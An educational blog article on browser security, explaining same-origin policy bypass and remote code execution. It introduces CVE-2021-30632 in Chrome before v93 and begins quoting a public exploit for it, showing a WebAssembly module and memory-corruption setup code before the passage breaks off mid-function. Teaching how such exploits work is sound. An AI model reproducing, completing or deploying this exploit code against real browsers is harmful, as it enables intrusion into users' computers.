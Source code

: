 The main point of this article is that "if the browser doesn't give it to you, you simply can't get it." This is a key difference between web front-end development and other execution environments. Conversely, if you manage to obtain something that the browser doesn't provide, it means you have found a vulnerability in the browser and can report it for a reward.

So, what is the most severe browser vulnerability? It is the one that allows attackers to bypass browser restrictions and perform actions that violate the browser's security assumptions.

For example, as mentioned earlier, SOP bypass can violate the same-origin policy and access data from other web pages. Although the previous example only demonstrated the ability to read URLs, more sophisticated attacks can even access the content itself. For instance, imagine you open `https://blog.huli.tw` to read my blog post, but behind the scenes, my website secretly executes JavaScript code that exploits the SOP bypass vulnerability to read all the content of your emails on `https://mail.google.com`.

Sounds terrifying, right? But it gets even scarier.

The most severe type of vulnerability allows attackers to execute arbitrary commands on a computer using JavaScript. This type of vulnerability is called Remote Code Execution (RCE).

Let's provide another example. Suppose you visit my blog, read some articles, and then close the page. However, at that moment, I can already issue commands to your computer. I can steal all the data from your computer or secretly install malicious software. In the past, there have been numerous cases of such vulnerabilities being exploited. Every now and then, browsers expose these most severe vulnerabilities. As regular users, our best course of action is to update our browsers promptly to minimize exposure to such dangers.

In September 2021, a vulnerability with the identifier CVE-2021-30632 was discovered. It is the aforementioned RCE vulnerability. By simply opening a webpage using Chrome browser (version earlier than v93), an attacker can directly invade your computer and execute commands.

Are you curious about what JavaScript code typically looks like in these types of attacks? How do they exploit certain functionalities to ultimately execute arbitrary code through the browser?

Below is one of the exploits for CVE-2021-30632, sourced from: [https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html](https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html)

``` html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
<script type="text/javascript">

function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module);
var main = instance.exports.main;

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
```